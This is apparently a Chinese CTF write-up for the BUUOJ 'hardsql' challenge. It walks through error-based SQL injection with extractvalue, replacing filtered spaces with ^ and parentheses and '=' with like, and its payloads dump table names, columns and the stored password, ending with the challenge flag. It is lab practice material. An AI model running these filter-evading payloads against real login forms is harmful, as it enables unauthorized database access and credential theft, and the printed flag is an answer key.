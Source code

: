 ### buuoj_[极客大挑战 2019]hardsql

这个典型的sql注入，首先测试一下什么闭合

![](https://pic.imgdb.cn/item/611a49465132923bf85b9a0c.jpg)

![](https://pic.imgdb.cn/item/611a49665132923bf85c0b37.jpg)

可以看到，username部分是单引号闭合，password部分是双引号闭合

试一下万能密码

```
1' or '1'='1
```

![](https://pic.imgdb.cn/item/611a49c75132923bf85d670a.jpg)

看来是不行了，既然有报错信息，那试一下报错注入

```
?username=admin&password=1' extractvalue(1,concat(0x7e,(select(database()))))%23
```

发现不行，又试了下发现还是不行，看了大佬的wp，才知道是字符过滤，把and/空格/union/select/=//**/等都过滤了，那把空格换成^，成功

![](https://pic.imgdb.cn/item/611a4b125132923bf862136f.jpg)

```
username=1&password=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))))%23
```

![](https://pic.imgdb.cn/item/611a4bbf5132923bf8649147.jpg)

这里用括号代替空格，like代替=符号，不过这么看的话，select没被过滤啊。。。

```
username=1&password=1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))))%23
```

![](https://pic.imgdb.cn/item/611a4c485132923bf86683f3.jpg)

```
username=1&password=1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))))%23
```

![](https://pic.imgdb.cn/item/611a4c965132923bf8679c70.jpg)

这里flag只有一半，使用right显示另一部分

```
username=1&password=1'^extractvalue(1,right(concat(0x7e,(select(group_concat(password))from(H4rDsq1))),30))%23
```

![](https://pic.imgdb.cn/item/611a4d0e5132923bf8695abc.jpg)

合起来

```
flag{753b1496-baca-4b9a-903b-f96a456db374}
```

